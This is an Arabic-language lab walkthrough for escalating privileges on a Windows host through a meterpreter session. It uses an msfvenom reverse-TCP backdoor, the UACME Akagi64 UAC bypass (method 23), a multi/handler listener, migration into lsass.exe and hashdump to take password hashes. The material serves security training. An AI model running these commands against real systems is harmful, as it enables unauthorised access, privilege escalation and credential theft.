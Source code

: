 الان راح نجرب نرفع صلاحياتنا عن طريق امر معين في الـ meterpreter session والي هو هذا الامر  
[getsystem] لرفع الصلاحيات بعد تغير البروسس الى explorer.exe  
نشوف انه رفض انه يرفع صلاحياتنا او ماقدر السيشن هذي ترفع صلاحياتنا  

طيب حنا يوزرنا admin هل هو حنا من ضمن قروب الـ Administrators? الان بنشيك  
[shell] عشان يفتح لنا الـ PowerShell  
[net localgroup administrators] هذا الامر عشان نشوف اليوزرات الي في هذا القروب  

نلاحظ انه فعلا حنا جزء من هذا القروب والي هو صلاحياته عاليه لكن حنا ماعندنا صلاحيات عاليه فبنقدر ناخذ اعلى صلاحيات عن طريق الـ Bypassing UAC  

طبعا الان بنسوي البايلود حقنا والي هو بيكون باستخدام اداة msfvenom  
[msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ip_attacker LPORT=$port_attacker -f
exe > 'backdoor.exe']  

طبعا هذا الامر راح يسوي لنا بايلود داخل ملف exe نفس ماحددنا له طبعا هذا الامر تنفذه بجهازك  
طيب الان ندخل على الـ meterpreter session  
ونرفع الملفين الي هو البايلود وكذالك البايلود  
[cd C:\\Users\\admin\\AppData\\Local\\Temp] طبعا الان راح نرفعهم داخل هذا المسار وهو المفضل لانه دائما يكون عندك صلاحية القرائة والكتابة في هذا المسار وهذا موجود في اللينكس والويندوز   
طبعا حطينا دبل باك سلاش لان الميتربريتر تعتبر الباك سلاش واحد تعتبره سكيب ف عشان دبلناه  
[upload /root/Desktop/tools/UACME/Akagi64.exe .]  
[upload /root/backdoor.exe .]  
[ls]  
والان نشوف انه رفع لنا الملفين حقتنا الاول البايباس والثاني الي هو البايلود  
الان نفتح تاب ثاني عشان نفتح فيه الاتصال على البورت الي حددناه في البايلود  
نفتح الفريم وورك بالامر التالي
[msfconsole]  
ونستخدم هذا الموديول  
[use exploit/multi/handler]  
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر  
[show options]  
نشوف انه طالب مننا LHOST , LPORT , PAYLOAD  
[set PAYLOAD windows/meterpreter/reverse_tcp] لابد يكون البايلود هذا نفس الي حقناه داخل ملف الـ exe  
[set LHOST 10.10.1.3] هنا تحدد الايبي حقك وليس ايبي التارقت  
[set LPORT 4444] هنا نحدد نفس البورت الي في البايلود الي حقناه داخل ملف الـ exe  
[exploit] or [run]  

طبعا الان نشغل البايلود مع البايباس عشان يجينا اتصال باعلى صلاحيات ف خلونا نكتب الامر مع بعض  
[Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe]  
طبعا الان اشتغل , رقم 23 يعني انه استخدم لنا الطريقة الي رقمها 23 والطرق كثيره في هذي الاداة تقدر تقرا عنها في القيت هب  

ف هو الان راح يسوي البايباس ويشغل الباك دور حقنا بعدها راح يجينا اتصال على الليسنر الي فتحناه بالـ MSFconsole  
الان نرجع للليسنر نشوف انه عطانا اتصال الان وبنحاول نرفع صلاحياتنا الان  
[getsystem]  
وزي مانشوف الان قبل ورفع صلاحيتنا بنجرب نحمل الهاشات  
طبعا اذا نبي نسوي hashdump لابد نكون على بروسس معين والي هو lsass.exe  
راح نستخدم نفس الطريقه عشان نغير البروسس الي شغالين عليها  
[ps -S lsass.exe] عشان يعطينا ايدي البروسس  
[migrate 680] هذا الامر عشان ننتقل للبروسس الي حطينا رقمها  
الان حولنا على البروسس الي حددناه نجرب نسوي hashdump  
[hashdump]  
ونشوف انه عطانا الهاشات ومعنا كامل الصلاحيات الان وانتهينا من هذا اللاب  
References:  
1. Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (https://www.exploit-db.com/exploits/39161)  
2. Metasploit Module (https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)  
3. UACMe (https://github.com/hfiref0x/UACME)  

---